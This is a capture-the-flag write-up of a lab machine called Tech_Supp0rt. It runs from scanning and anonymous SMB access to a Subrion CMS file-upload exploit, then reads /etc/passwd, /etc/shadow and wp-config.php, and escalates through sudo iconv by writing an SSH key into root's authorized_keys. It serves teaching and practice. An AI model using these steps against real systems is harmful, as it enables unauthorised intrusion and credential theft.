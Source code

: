 
![image](https://user-images.githubusercontent.com/71709864/221074068-11d3169e-530e-4df7-80bb-a91efe0bcc33.png)


# Tech_Supp0rt

## Hack into the machine and investigate the target.

I started of this challenge by running an nmap scan and also ran a gobuster scan.
```
nmap -sV -sC <IP_Machine>
```
```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u <IP_Machine>
```
The nmap scan came back and I quickly noticed that there was an smb server present.

Host Scripts Results:

account_used: guest

authentication_level: user

After many failed attempts of trying to make the credentials work with 
the smbclient command.. I searched online and found a command to connect.

```
smbclient //<Machine_IP>/websvr
```

Here I was into the smb server client
From here I used an 'ls' command and saw that there was an 'enter.txt' file.
I used a 'get' command to download the file onto my host machine.
After I opened the file on my machine it read:
______________________________________________________________________
```
Goals
=====
1)Make fake popup and host it online on Digital Ocean server

2)Fix subrion site, /subrion doesn't work, edit from panel

3)Edit wordpress website

IMP
===
Subrion creds

|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

Wordpress creds

|->
```
_______________________________________________________________________

Reading this file I saw that the 'subrion/' looked like a directory on the webpage. 
There also seemed to be a username and password. (If you put the password into
cyberchef and cook it with the magic decryption.. it comes out to 'Scam2021')

I tried to put the subrion/ onto the end of browser search and came 
up with a directory along with a /robots.txt after it.

http://<IP_Machine>/subrion/robots.txt
resulted with these directories >> 
______________________________________________________________________
User-agent: *

Disallow: /backup/

Disallow: /cron/?

Disallow: /front/

Disallow: /install/

Disallow: /panel/

Disallow: /tmp/

Disallow: /updates/
_________________________________________________________________________

I tried to input all of these and the one that looked most interesting
was the '/panel/' page because I already had a username and a password.

After logging in it appeared I could be able to run an exploit and get a shell on this machine.
There was a version that I could see as Subrion CMS
v 4.2.1

I found an exploit on 'exploit-db' which seemed to match the same version called 
Subrion CMS 4.2.1 - Arbitrary File Upload 

When trying to run the exploit I got an error tha looked like this :

```
Traceback (most recent call last):
  File "49876.py", line 19, in <module>
    from bs4 import BeautifulSoup
ModuleNotFoundError: No module named 'bs4'
```
I then installed BeauttifulSoup using https://pypi.org/project/beautifulsoup4/

```
pip2 install beautifulsoup4
```

After installing.. I ran the command again with the username (-l) and password (-p)
like so--->

```
python3 49876.py -u http://10.10.198.19/subrion/panel/ -l admin -p Scam2021
``` 
AND I GOT A SHELL ^-^
Here I searched for /etc/passwd file 

```
cat /etc/passwd
```
I noticed that there was a directory to 'scamsite' and also knew that the site was powered
by wordpress so I could be able to run a cat command using this in the shell.

```
cat /var/www/html/wordpress/wp-config.php
```

Here I got access to the file and was able to find a password 

```
/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```

I then ran ssh to connect to the website using the password I found
in the database.

```
ssh scamsite@<IP_Machine>
```
And then I was connected to 'scamsite@TechSupport'
I then checked for permissions. 

```
sudo -l
```

```
(ALL) NOPASSWD: /usr/bin/iconv
```

Once I saw that we had privilege here.. I went to GTFO bins and 
searched for permissions. I searched iconv and used -->

```
LFILE=file_to_read   
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```

Then I imput the path I wanted to use

```
LFILE=/etc/shadow   
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

This gave me the shadow file. I then ran another command
This time using -->

```
LFILE=/root/root.txt
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

And I got the root.txt flag

This wasn't the end as I wanted to get to the root user.
On my machine I generated a public and private key.

```
ssh-keygen
```

I copied the public key and put it onto the attacking machine

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXAr00dvELBb43yeqP1kKlKcmJfiF5Kf4FXmHUwr17wwEpl
yP4jvjCS1uyW4Wrz+Bu1htWrW5NoiBwbR6BZqzXjlJKDVH3vKI2DvoQRLyvsdG+h7CmtszATI/zkLIL9kSfoVlXtWpNaN/9Ay8
/rQISsgsMdERPq/o6aatQF0KEtBPOW6+/TuwY9iFujfK56veQkDiolVN+BXSbz//HIzFyC1Tf8dnjBXVDEfHqicuW
50uuJq0Haj6ZETCWk0r/BOUCD28R2AFbqRd2z1RTCThSMzpoBKHeDTLqpc1z4ebpVlk0DL2DzMzCLKAa
kWe/CVAn7jzHfiVmQ5SwhF7NVSCV lotus@<<Machine_IP>" | sudo iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys  
```

I then used the key pair to log onto the root user.

```
ssh root@<attacking_ip> -i tech_support
```

And finally I was root ^_^.
